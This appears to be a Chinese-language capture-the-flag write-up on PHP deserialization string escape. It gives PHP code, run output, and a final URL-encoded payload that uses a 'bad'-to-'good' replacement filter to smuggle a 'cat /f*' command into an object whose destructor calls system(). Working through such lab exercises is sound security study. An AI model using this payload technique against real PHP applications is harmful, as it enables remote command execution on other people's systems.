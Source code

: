 O:7:"GetFlag":2:{s:3:"key";s:15:"badbadbadbadbad";s:3:"cmd";s:2:"ls";s:3:"cmd";s:6:"whoami";}

O:7:"GetFlag":2:{s:3:"key";s:15:"goodgoodgoodgoodgood";s:3:"cmd";s:6:"whoami";}

看视频的忘记干净了   [PHP反序列化字符串逃逸](https://www.cnblogs.com/v2ish1yan/articles/16113296.html)

构造代码：

```php
<?php
function waf($str){
    return str_replace("bad","good",$str);
}
class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}


echo serialize(new GetFlag('ls /'));
echo waf(serialize(new GetFlag('badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:7:"cat /f*";}')));
echo "\n";
echo urlencode('badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:7:"cat /f*";}');
//unserialize(waf());
```

运行结果：

```php
O:7:"GetFlag":2:{s:3:"key";s:4:"ls /";s:3:"cmd";s:6:"whoami";}laptop-5b9o2u5a\lyra
O:7:"GetFlag":2:{s:3:"key";s:108:"goodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgood";s:3:"cmd";s:7:"cat /f*";}";s:3:"cmd";s:6:"whoami";}
badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad%22%3Bs%3A3%3A%22cmd%22%3Bs%3A7%3A%22cat+%2Ff%2A%22%3B%7D
```

​		总的就是说，bad会被替换为good，每有一个bad就会多出来一个字符，让多出来的字符占用原本属于";s:3:"cmd";s:7:"cat /f*";}的位置，从而让";s:3:"cmd";s:7:"cat /f*";}逃逸出去而成功执行。

​		在php代码中，序列化时最好用单引号括住‘  ’。。。php打印时，还有序列化的结果是要使用双引号进行闭合，并判断闭合的内容。

​		序列化结果以 ;} 为结束标志，后面的内容不起作用，构造时就默认把  ”; 算上，这是要闭合前面的内容的。

​		所以最后的payload为

```
?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad%22%3Bs%3A3%3A%22cmd%22%3Bs%3A7%3A%22cat+%2Ff%2A%22%3B%7D
```
